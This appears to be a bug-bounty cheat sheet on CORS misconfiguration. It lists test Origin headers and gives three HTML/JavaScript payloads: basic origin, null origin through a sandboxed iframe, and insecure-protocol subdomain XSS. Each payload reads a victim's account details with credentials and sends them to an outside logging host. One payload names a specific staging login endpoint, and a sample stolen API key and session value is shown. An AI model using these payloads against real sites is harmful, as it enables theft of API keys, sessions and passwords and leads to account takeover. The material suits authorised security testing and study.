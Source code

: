 <h1>CORS Misconfiguration</h1>
<h3>Impact:</h3>
<p>Api token, email, password, and other types of sensitive data exposure, could lead in account takeover.</p>
<h4>Headers to test:</h4>
<p><code>Origin: https://example.com</code></p>

<p><code>Origin: http://example.com</code></p>

<p><code>Origin: http://subdomain.$domain.com</code></p>

<p>Response:</p>
<p><code>Access-Control-Allow-Origin: https://example.com</code></p>
<p><code>Access-Control-Allow-Origin: https://subdomain.$domain.com</code></p>

<p>CORS vulnerability with trusted null origin</p>
<p>-Go to console, and you must see:</p>
<p><code>https://angeljuanma.github.io/log?key={ "username": "wiener", "email": "", "apikey": "ILmCsS4WvD12NbFLxkHaUt7PnL3cFDzU", "sessions": [ "mWXTjX7lmBUZlRJ9TPWqfN7FxBggUFKg" ] }</code></p>

<p>This will store the accout details.</p>

### CORS Payload Basic Origin
```html
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','login-staging.arkane.network/auth/realms/Arkane/protocol/openid-connect/auth?client_id=ArkaneMarket&redirect_uri=https%3A%2F%2Fconnect-staging.venly.io%2FcheckAuthenticated%3FclientId%3DArkaneMarket%26origin%3Dhttps%253A%252F%252Fstaging.venly.market%252Faccount%26env%3Dstaging&state=feb678cb-c9b8-4f19-aa3e-f94582e5aaa2&response_mode=fragment&response_type=code&scope=openid&nonce=b5de6a60-5e75-4809-87be-513c84abb663&prompt=none',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       alert(1)
       alert(this.responseText);
   };
</script> 
```

### CORS Payload Null Origin
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
   var req = new XMLHttpRequest ();
   req.onload = reqListener;
   req.open('get','https://$domain/accountDetails',true);
   req.withCredentials = true;
   req.send();
   function reqListener() {
       location='https://angeljuanma.github.io/All-About-Bug-Bounty/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe>
```
### CORS Payload Insecure Protocols
```html
<script>
   document.location="http://subdomainVuln.$domain.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://$domain/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://angeljuanma.github.io/All-About-Bug-Bounty/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script> 
```
